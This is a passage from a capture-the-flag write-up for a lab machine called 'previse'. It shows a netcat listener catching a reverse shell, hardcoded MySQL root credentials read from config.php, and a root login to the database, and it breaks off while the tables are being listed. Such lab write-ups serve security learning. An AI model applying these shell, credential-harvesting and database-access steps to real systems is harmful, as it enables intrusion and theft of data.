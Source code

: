 I got a hit back on the listener and I was on the server.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.95.185 43272
bash: cannot set terminal process group (1540): Inappropriate ioctl for device
bash: no job control in this shell

www-data@previse:/var/www/html$ whoami
whoami
www-data
```

## Lateral Movement

I was connected as `www-data`, and I did not have access to the user flag. I needed to get access to a real user.

The website code had a `config.php` file with database credentials.

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

I connected to the database with those and found a table with more credentials.

```bash
www-data@previse:/var/www/html$ mysql -uroot -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 73
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> Show Databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
Reading table information for completion of table and column names
```